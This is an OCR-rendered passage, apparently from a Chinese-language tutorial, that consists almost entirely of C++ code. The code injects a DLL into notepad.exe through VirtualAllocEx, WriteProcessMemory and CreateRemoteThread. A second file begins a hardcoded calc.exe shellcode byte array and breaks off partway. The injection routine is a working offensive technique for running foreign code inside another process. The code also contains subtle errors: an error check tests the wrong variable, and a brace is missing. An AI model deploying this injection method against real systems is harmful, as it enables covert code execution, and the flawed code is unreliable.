 ```c++
    
    // 2.申请空间
    LPVOID pAllocMemory = VirtualAllocEx(hprocess, NULL, size, MEM_COMMIT,PAGE_READWRITE);
    if (pAllocMemory == NULL)
    {
        printf("VirtualAllocEx error!\n");
        return FALSE;
    }
    
    // 3.写入内存
    BOOL Write = WriteProcessMemory(hprocess, pAllocMemory, DllName, size,NULL);
    if (pAllocMemory == 0)
    {
        printf("WriteProcessMemory error!\n");
        return FALSE;
    

    // 4.获取LoadLibrary - kenrel32.dll
    FARPROC pThread = GetProcAddress(GetModuleHandle(L"kernel32.dll"),"LoadLibraryW");
    LPTHREAD_START_ROUTINE addr = (LPTHREAD_START_ROUTINE)pThread;
    
    // 5.创建线程
    HANDLE hThread = CreateRemoteThread(hprocess, NULL, 0, addr, pAllocMemory,0, NULL);
    if (hThread == NULL)
    {
    printf("CreateRemoteThread error!\n");
    return FALSE;
    }
    
    // 6.等待线程函数结束
    WaitForSingleObject(hThread, -1);
    // 7.释放DLL空间
    VirtualFreeEx(hprocess, pAllocMemory, size, MEM_DECOMMIT);
    // 8.关闭句柄
    CloseHandle(hprocess);
    return TRUE;
}

int main()
{
    DWORD PID = GetProcessPID(L"notepad.exe");
    RemoteThreadInject(PID, L"C:\\Users\\test\\Desktop\\x64.dll");
}
```

dllmain.cpp

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Calc.exe shellcode (exit function = thread)
unsigned char payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
```